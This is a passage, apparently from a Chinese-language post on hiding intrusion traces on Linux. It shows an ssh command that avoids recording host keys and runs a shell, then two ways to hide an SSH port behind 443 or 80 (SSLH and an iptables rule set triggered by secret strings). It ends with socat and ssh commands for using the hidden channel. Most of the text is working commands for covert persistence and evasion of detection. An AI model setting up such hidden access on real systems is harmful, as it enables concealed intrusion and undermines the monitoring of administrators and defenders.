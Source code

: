 不记录ssh公钥在本地.ssh目录中
```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```


# 0x06 端口复用
通过端口复用来达到隐藏端口的目的，在Linux下，如何实现端口复用呢？

第一种方式：通过SSLH在同一端口上共享SSH与HTTPS
```
 #安装SSLH
 sudo apt-get install sslh
 #配置SSLH
 编辑 SSLH 配置文件：
 sudo vi /etc/default/sslh
 1、找到下列行：Run=no  将其修改为：Run=yes
 2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```

第二种方式：利用IPTables进行端口复用
```
# 端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
```

利用方式：
```
#开启复用
echo threathuntercoming | socat - tcp:192.168.28.128:80
#ssh使用80端口进行登录
ssh -p 80 root@192.168.28.128
#关闭复用
echo threathunterleaving | socat - tcp:192.168.28.128:80
```